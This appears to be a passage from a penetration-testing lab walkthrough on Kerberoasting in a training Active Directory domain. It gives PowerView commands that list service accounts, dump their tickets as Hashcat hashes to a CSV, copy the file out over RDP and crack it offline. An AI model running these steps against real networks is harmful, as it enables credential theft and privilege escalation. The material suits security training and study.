 
### Kerberoasting

To cover all our bases, let's check if there are any Kerberoastable users. We can do this via Proxychains using **GetUserSPNs.py or PowerView**. In our RDP session, we'll load PowerView and enumerate Service Principal Name (SPN) accounts.

![Powerview]()

	Get-DomainUser * -SPN | Select samaccountname

	samaccountname
	--------------
	azureconnect
	backupjob
	krbtgt
	mssqlsvc
	sqltest
	sqlqa
	sqldev
	mssqladm
	svc_sql
	sqlprod
	sapsso
	sapvc
	vmwarescvc

There are quite a few. Let's export these to a CSV file for offline processing.

	PS C:\DotNetNuke\Portals\0> Get-DomainUser * -SPN -verbose |  Get-DomainSPNTicket -Format Hashcat | Export-Csv .\ilfreight_spns.csv -NoTypeInformation

We can download this file via the RDP drive redirection we set up earlier: copy **.\ilfreight_spns.csv \\Tsclient\Home**. Open up the .csv file using LibreOffice Calc or Excel and pull out the hashes and add them to a file. We can now run them through Hashcat to see if we can crack any and, if so, if they are for privileged accounts.


![Hashcat](/Lateral-Movement/images/hashcat.png) 
